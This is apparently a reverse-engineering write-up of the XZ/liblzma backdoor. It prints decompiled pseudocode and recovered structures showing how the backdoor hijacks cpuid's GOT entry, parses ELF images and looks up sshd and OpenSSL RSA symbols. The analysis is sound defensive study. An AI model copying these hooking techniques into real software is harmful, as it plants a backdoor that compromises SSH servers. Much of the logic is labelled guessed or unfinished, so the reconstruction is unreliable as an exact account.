

# XZ backdoor analysis

Most of my contribution is based on existing analysis, including the Prefix trie from @q3k (https://gist.github.com/q3k/af3d93b6a1f399de28fe194add452d01), and analysis from @smx-smx (https://gist.github.com/smx-smx/a6112d54777845d389bd7126d6e9f504).

Thanks to @q3k and @smx-smx for their contributions.

Notice: 

> I'm not an expert in malware analysis and computer security, and it's the first time for me to analyze such big programs. Most of the code logic is merely guessed through static analysis in IDA. And how the program setups hooks and what it does is still unclear in this repo.
>
> I also setup a dynamic debug environment, please checkout the gdb.md.
>
> Please feel free to open an issue if you find any problem.

I manage to recovery some structures and function prototypes:

```c
__int64 __fastcall process_elf_seg(struct_elf_info *a1, unsigned __int64 a2, unsigned __int64 a3, __int64 ptflags);
__int64 __fastcall parse_elf(Elf64_Ehdr *elf_hdr, struct_elf_info *elf_info);
char *__fastcall import_lookup_get_str(struct_elf_info *a1, int hash, int a3);
__int64 __fastcall Llz_encode_1(struct_elf_info *a1, _QWORD *JMPREL_addr, unsigned int plt_num, __int64 a4, int tre_hash);
__int64 __fastcall Ldelta_coder_end_1(struct_elf_info *a1, int tre_hash);
__int64 __fastcall maybe_find_freespaces(struct_elf_info *, unsigned __int64 *, int);
__int64 __fastcall Lauto_decode_1(struct_elf_info *a1, unsigned __int64 a2, unsigned __int64 a3, int a4);
__int64 __fastcall sub_2540(_QWORD *a1, __int64 a2, struct_elf_info *a3, __int64 a4);
__int64 __fastcall backdoor_vtbl_init(struc_vtbl *a1);
__int64 __fastcall traversal_dynstr_sshd(struct_elf_info *a1, char **a2);
__int64 __fastcall parse_elf_invoke(elf_parse_result *a1);
__int64 __fastcall set_rkctx_cpuid(rootkit_ctx *a1);
__int64 __fastcall get_ehdr_address(rootkit_ctx *a1);
void *__fastcall set_rkctx_self(rootkit_ctx *a1);
__int64 __fastcall backdoor_ctx_save(rootkit_ctx *ctx);
__int64 __fastcall Llzma_filter_flags_decode_0(struct_elf_info *a1, struct_elf_info *a2, _QWORD *a3, __int64 a4);
__int64 __fastcall Llzma_index_buffer_encode_0(Elf64_Ehdr **p_elf, struct_elf_info *a2, struct_ctx *ctx);
_BOOL8 __fastcall process_shared_libraries_map(Elf64_Ehdr **a1, parse_lib *lib);
__int64 __fastcall parse_elf_init(struc_init22 *init);
__int64 __fastcall backdoor_init_stage2(rootkit_ctx *ctx, _QWORD *unused, _QWORD *cpuid_got_ptr, struc_gots *gots);
```

The corresponding symbol address is available in the .lst file.

## Structures

Most fields are still WIP.

### init stage

```c
struct rootkit_ctx
{
  __int64 runtime_addr;
  __int64 runtime_offset;
  __int64 cpuid_got_ptr;
  __int64 cpu_id_got;
  rootkit_ctx *self;
  __int64 got_ptr;
  __int64 field_30;
  __int64 field_38;
};
```

This structure is used in `hijacked_cpuid` and `backdoor_init`:

```c
__int64 __fastcall hijacked_cpuid(unsigned int edi0, _DWORD *a2)
{
  unsigned int v3; // [rsp+14h] [rbp-4Ch] BYREF
  int v4; // [rsp+18h] [rbp-48h] BYREF
  int v5; // [rsp+1Ch] [rbp-44h] BYREF
  rootkit_ctx ctx; // [rsp+20h] [rbp-40h] BYREF

  if ( global_counter == 1 )
  {
    ctx.runtime_addr = 1LL;
    memset(&ctx.runtime_offset, 0, 32);
    ctx.got_ptr = (__int64)a2;
    backdoor_init(&ctx, a2);
  }
  ++global_counter;
  cpuid(edi0, &v3, &v4, &v5, &ctx);
  return v3;
}
```

```c
__int64 __fastcall backdoor_init(rootkit_ctx *ctx, _DWORD *rbp_m10)
{
  _DWORD *v2; // r8
  __int64 offset; // rax
  bool is_cpuid_got_zero; // zf
  _QWORD *cpuid_got_ptr; // rdx 0x00007ffff7fc1fd8
  __int64 got_value; // r12 0x00007ffff7f8a6f0
  void *cpuid_got_ptr_1; // [rsp+8h] [rbp-28h]
                                                // rsi: 0x00007fffffffe8c0 is a stack pointer
  ctx->self = ctx;
  backdoor_ctx_save(ctx);                       // after this ctx_save:
                                                // 
                                                // runtime_addr = &address_hinter (0xAE20)
                                                // cpuid_got_ptr += 0x18
                                                // self = ro_gots
                                                // ctx->cpuid_got_ptr = ro_gots.cpu_id
  ctx->got_ptr = ctx->cpuid_got_ptr;
  offset = ctx->runtime_addr - (unsigned __int64)ctx->self; // = addr_hinter - ro_gots (offset of addr_hinter)
  ctx->runtime_offset = offset;
  is_cpuid_got_zero = ro_gots.cpu_id + offset == 0;
  cpuid_got_ptr = (_QWORD *)(ro_gots.cpu_id + offset);
  ctx->cpuid_got_ptr = (__int64)cpuid_got_ptr;
  if ( !is_cpuid_got_zero )
  {
    cpuid_got_ptr_1 = cpuid_got_ptr;
    got_value = *cpuid_got_ptr;
    *cpuid_got_ptr = ro_gots.backdoor_init_stage2 + offset;// overwrite cpuid's got, jump to backdoor_init_stage
    offset = cpuid((unsigned int)ctx, rbp_m10, cpuid_got_ptr, &ro_gots, v2);
    *(_QWORD *)cpuid_got_ptr_1 = got_value;
  }
  return offset;
}

// 0x7ffff7fab240
__int64 __fastcall backdoor_ctx_save(rootkit_ctx *ctx)
{
  __int64 result; // rax

  ctx->runtime_addr = (__int64)&addr_hinter;
  ctx->cpuid_got_ptr = *(_QWORD *)(ctx->got_ptr + 0x18);
  set_rkctx_self(ctx);                          // a1->self = ro_gots
  set_rkctx_cpuid(ctx);                         // ctx->cpuid_got_ptr = ro_gots.cpu_id
  result = 0LL;
  ctx->runtime_offset = 0LL;
  return result;
}
```

The `ro_gots` is a rodata structure storing the offset of some key functions:

```
.rodata.lzma12_mf_mao.0:000000000000CAB0 ; ===========================================================================
.rodata.lzma12_mf_mao.0:000000000000CAB0
.rodata.lzma12_mf_mao.0:000000000000CAB0 ; Segment type: Pure data
.rodata.lzma12_mf_mao.0:000000000000CAB0 ; Segment permissions: Read
.rodata.lzma12_mf_mao.0:000000000000CAB0 _rodata_lzma12_mf_mao_0 segment byte public 'CONST' use64
.rodata.lzma12_mf_mao.0:000000000000CAB0                 assume cs:_rodata_lzma12_mf_mao_0
.rodata.lzma12_mf_mao.0:000000000000CAB0                 ;org 0CAB0h
.rodata.lzma12_mf_mao.0:000000000000CAB0                 public ro_gots
.rodata.lzma12_mf_mao.0:000000000000CAB0 ; struc_gots ro_gots
.rodata.lzma12_mf_mao.0:000000000000CAB0 ro_gots         dq offset addr_hinter - offset _GLOBAL_OFFSET_TABLE_
.rodata.lzma12_mf_mao.0:000000000000CAB8                 dq offset _cpuid_ptr - offset _GLOBAL_OFFSET_TABLE_
.rodata.lzma12_mf_mao.0:000000000000CAC0                 dq offset backdoor_init_stage2 - offset _GLOBAL_OFFSET_TABLE_
.rodata.lzma12_mf_mao.0:000000000000CAC0 _rodata_lzma12_mf_mao_0 ends
.rodata.lzma12_mf_mao.0:000000000000CAC0
.rodata.rc_encode:000000000000CAC8 ; ===========================================================================
```

I defined a type for it:

```c
struct struc_gots
{
  __int64 field_0;
  __int64 cpu_id;
  __int64 backdoor_init_stage2;
};
```

Then it calls the modified cpuid, which runs into backdoor_init_stage2:

This function allocates two structure: `struc_vtbl` and `struc_init22`, their size is guessed by the following memset zero and other references. The detailed control flow still needs verification under dynamic anaylsis.

```c
__int64 __fastcall backdoor_init_stage2(rootkit_ctx *ctx, _QWORD *unused, _QWORD *cpuid_got_ptr, struc_gots *gots)
{
  __int64 v5; // rcx
  _DWORD *p_vtbl; // rdi
  _DWORD *p_init2; // rdi
  __int64 i; // rcx
  int v9; // eax
  __int64 cpuid_got_ptr_1; // rdx
  struc_gots *gots_1; // rcx
  struc_vtbl vtbl; // [rsp+20h] [rbp-128h] BYREF
  struc_init22 init2; // [rsp+A8h] [rbp-A0h] BYREF

  v5 = 34LL;
  p_vtbl = &vtbl;
  while ( v5 )                                  // 17 QWORD
  {
    *p_vtbl++ = 0;
    --v5;
  }
  p_init2 = &init2;
  for ( i = 34LL; i; --i )                      // 17 QWORD
    *p_init2++ = 0;
  lzma_check_init(&init2.field_18, 0LL);        // do nothing, the second arg is zero
  v9 = backdoor_vtbl_init(&vtbl);               // first: a1->static_gots is NULL, return 101
  do
  {
    if ( !v9 )                                  // first: goes here, return by parse_elf
    {
      init2.cpuid_got_ptr = cpuid_got_ptr_1;
      init2.static_gots = gots_1;
      init2.rookit_ctx = ctx;
      return parse_elf_init(&init2);
    }
    vtbl.static_gots = gots_1;
    v9 = backdoor_vtbl_init((struc_vtbl *)cpuid_got_ptr_1);
  }
  while ( v9 != 5 );
  ctx->runtime_addr = 1LL;
  ctx->runtime_offset = 0LL;
  ctx->cpuid_got_ptr = 0LL;
  ctx->cpu_id_got = 0LL;
  ctx->self = 0LL;
  _RAX = 0LL;
  __asm { cpuid }
  if ( (_DWORD)_RAX )
  {
    _RAX = 1LL;
    __asm { cpuid }
    LODWORD(ctx->runtime_offset) = _RAX;
    LODWORD(ctx->cpuid_got_ptr) = _RBX;
    LODWORD(ctx->cpu_id_got) = _RCX;
    LODWORD(ctx->self) = _RDX;
  }
  return 0LL;
}
```

```c
struct struc_vtbl
{
  __int64 field_0;
  __int64 field_8;
  __int64 field_10;
  __int64 field_18;
  __int64 field_20;
  __int64 field_28;
  struc_gots *static_gots;
  __int64 field_38;
  __int64 field_40;
  __int64 field_48;
  __int64 field_50;
  __int64 field_58;
  __int64 field_60;
  __int64 field_68;
  __int64 field_70;
  __int64 field_78;
  __int64 field_80;
};
struct struc_init22
{
  __int64 field_0;
  struc_gots *static_gots;
  __int64 cpuid_got_ptr;
  __int64 field_18;
  __int64 field_20;
  __int64 field_28;
  __int64 field_30;
  __int64 field_38;
  __int64 field_40;
  __int64 field_48;
  __int64 field_50;
  __int64 field_58;
  __int64 field_60;
  __int64 field_68;
  __int64 field_70;
  __int64 field_78;
  rootkit_ctx *rookit_ctx;
};
```

### ELF Parse

```c
struct parse_lib
{
  struc_parse_elf *parser;
  struct_elf_info **infos;
  __int64 *RSA_public_decrypt;
  __int64 *EVP_PKEY_set1_RSA;
  __int64 *RSA_get0_key;
  __int64 global_counter;
  __int64 field_30;
};

/* 29 */
struct elf_parse_result
{
  struct_elf_info **elf_info_arr;
  Elf64_Ehdr *elf_ehdr;
  char **argv0;
  __int64 cpuid_got_ptr;
  parse_lib libs;
  __int64 field_58;
};

/* 51 */
struct struc_parse_elf
{
  Elf64_Ehdr **ehdr;
  __int64 field_1;
  __int64 field_2;
  __int64 field3;
  __int64 field_4;
  __int64 field_5;
  struct_elf_info *elf_info_arr[5];     // the array of pointer
  struc_parse_elf *self_addr;
  struct_elf_info **elf_arrptr;
  struct_elf_info elf_infos[5];         // the real space for elf_info
};
```

#### parse_elf_init

`parse_elf_init` allocates a big structure c `struc_parse_elf parser_1` in stack, which includes 5 `struct_elf_info`.

It finds the ELF file in the memory space and parses it.

There are five big structures, whose size is equal to `struct_elf_info`, so I guess it is an array




```c
__int64 __fastcall parse_elf_init(struc_init22 *init)
{
  __int64 v2; // rcx
  struc_parse_elf *p_parser_1; // rdi
  rootkit_ctx *rookit_ctx; // rcx
  rootkit_ctx *rookit_ctx_rcx; // rcx
  __int64 cpuid_got_ptr_low; // rax
  __int64 runtime_offset; // rdx
  unsigned __int64 v8; // rbx
  unsigned __int64 cpuiid_got_ptr; // rax
  __int64 v10; // rdx
  Elf64_Ehdr *elf_ehdr; // rbx
  Elf64_Ehdr *v12; // r12
  rootkit_ctx *v13; // rax
  lzma_allocator *lzma_allocator; // rax
  struc_parse_elf parser_1; // [rsp+1D8h] [rbp-980h] BYREF          // init a struc_parse_elf here.

    // .. still unknown

  lzma_allocator local_allocor; // [rsp+B10h] [rbp-48h]
  lzma_allocator *glo_allocator; // [rsp+B28h] [rbp-30h]

  v2 = 0x256LL;
  p_parser_1 = &parser_1;
  v188 = 0;
  while ( v2 )
  {
    LODWORD(p_parser_1->ehdr) = 0;
    p_parser_1 = (struc_parse_elf *)((char *)p_parser_1 + 4);
    --v2;
  }                                             // memset a big array (parser_1)
  rookit_ctx = init->rookit_ctx;
  parser_1.elf_info_arr[0] = parser_1.elf_infos;
  parser_1.elf_info_arr[1] = &parser_1.elf_infos[1];
  parser_1.elf_info_arr[2] = &parser_1.elf_infos[2];
  v189 = 0LL;
  v190 = 0LL;
  v191 = 0LL;
  v192 = 0LL;
  v193 = 0LL;
  parser_1.elf_info_arr[3] = &parser_1.elf_infos[3];
  parser_1.elf_info_arr[4] = &parser_1.elf_infos[4];        // there are 5 elf_info structures. and forms an array
  parser_1.self_addr = &parser_1;
  parser_1.elf_arrptr = parser_1.elf_info_arr;
  get_ehdr_address(rookit_ctx);                             // still WIP
  cpuid_got_ptr_low = LOBYTE(rookit_ctx_rcx->cpuid_got_ptr);
  runtime_offset = rookit_ctx_rcx->runtime_offset;
  rookit_ctx_rcx->cpu_id_got = cpuid_got_ptr_low;
  v8 = *(_QWORD *)(runtime_offset + 8 * cpuid_got_ptr_low + 24);
  cpuiid_got_ptr = rookit_ctx_rcx->got_ptr;
  v10 = cpuiid_got_ptr - v8;
  if ( v8 >= cpuiid_got_ptr )
    v10 = v8 - cpuiid_got_ptr;
  if ( v10 > 0x50000 )
    goto label_fail;
  elf_ehdr = (Elf64_Ehdr *)(v8 & 0xFFFFFFFFFFFFF000LL);
  v12 = elf_ehdr - 2048;
  while ( (unsigned int)table_get((char *)elf_ehdr, 0LL) != x7fELF )// find elf_ehdr
  {
    elf_ehdr -= 64;
    if ( elf_ehdr == v12 )
      goto label_fail;
  }
  elf_result.elf_info_arr = parser_1.elf_info_arr;
  elf_result.argv0 = (char **)&v193;
  v13 = init->rookit_ctx;
  elf_result.elf_ehdr = elf_ehdr;
  elf_result.cpuid_got_ptr = v13->got_ptr;
  if ( !(unsigned int)parse_elf_invoke(&elf_result) )// get the argv[0], and find free spaces
    goto label_fail;
  lzma_allocator = get_lzma_allocator(1LL);
  v15 = 0LL;
  glo_allocator = lzma_allocator;
  do
  {
    *((_BYTE *)&local_allocor.alloc + v15) = *((_BYTE *)&lzma_allocator->alloc + v15);
    ++v15;
  }
  while ( v15 != 24 );                          // copy lzma_allocator into stack local_allocor, 3 QWORD
  elf_result.libs.parser = &parser_1;
  elf_result.libs.RSA_public_decrypt = &v190;
  elf_result.libs.EVP_PKEY_set1_RSA = &v191;
  elf_result.libs.RSA_get0_key = &v192;
  cpuid_got_ptr = init->cpuid_got_ptr;
  elf_result.libs.infos = parser_1.elf_info_arr;
  v17 = *(_QWORD *)(cpuid_got_ptr + 0x38);      // it's global_counter defined just in this file, verified in dynamic debug.
  elf_result.libs.field_30 = (__int64)v215;
  elf_result.libs.global_counter = v17;
  if ( !(unsigned int)process_shared_libraries(&elf_result.libs) )
  {
label_fail:
    v176 = 0LL;
LABEL_16:
    sub_2760(v176);
    v18 = (__int64)glo_allocator;
    v19 = 0LL;
    for ( i = glo_allocator == 0LL; !i; i = v19 == 24 )
    {
      *(_BYTE *)(v18 + v19) = *((_BYTE *)&local_allocor.alloc + v19);
      ++v19;
    }
    v21 = 598LL;
    v22 = 0LL;
    v23 = &parser_1;
    while ( v21 )
    {
      LODWORD(v23->ehdr) = 0;
      v23 = (struc_parse_elf *)((char *)v23 + 4);
      --v21;
    }
    ctx = init->rookit_ctx;
    goto label_exit;
  }
  v35 = 90LL;                                   // success continues here, 0x7ffff7fa8d38
  global_counter_deref = **(_QWORD **)(init->cpuid_got_ptr + 0x38);// cpuid_got_ptr(0x7fffffffe730) is changed to 0x00007fffffffe698
                                                // by RIP:0x7ffff7fa802e
  v176 = global_counter_deref;                  // 0x00007ffff7fc2038

  // I am still working on the other logic after here, 
  // there are many memory access located by `global_counter_deref`, it is still unclear the real structure and address
  return 0LL;
}
```

#### parse_elf_invoke

parse the ELF file, and traversal all strings in the stack end (maybe argv and env?)

```c
__int64 __fastcall parse_elf_invoke(elf_parse_result *a1)
{
  char *stack_end; // rax
  struct_elf_info *v4; // rdi
  char **v5; // r12

  if ( !(unsigned int)parse_elf(a1->elf_ehdr, a1->elf_info_arr[1]) )
    return 0LL;
  stack_end = import_lookup_get_str(a1->elf_info_arr[1], __libc_stack_end, GLIBC_2_2_5);
  if ( !stack_end )
    return 0LL;
  v4 = (struct_elf_info *)*((_QWORD *)a1->elf_info_arr + 1);
  v5 = (char **)&v4->elf_hdr->e_ident[*((_QWORD *)stack_end + 1)];// we create a string array at the end of stack?
  if ( !(unsigned int)traversal_dynstr_sshd((__int64)v4, *v5) )
    return 0LL;
  *a1->argv0 = *v5;
  return 1LL;
}
```

#### parse_elf


```c
__int64 __fastcall parse_elf(Elf64_Ehdr *elf_hdr, struct_elf_info *elf_info)
```

Parse the given Elf64_Ehdr into struct_elf_info, most fields of `struct_elf_info` are guessed from here.
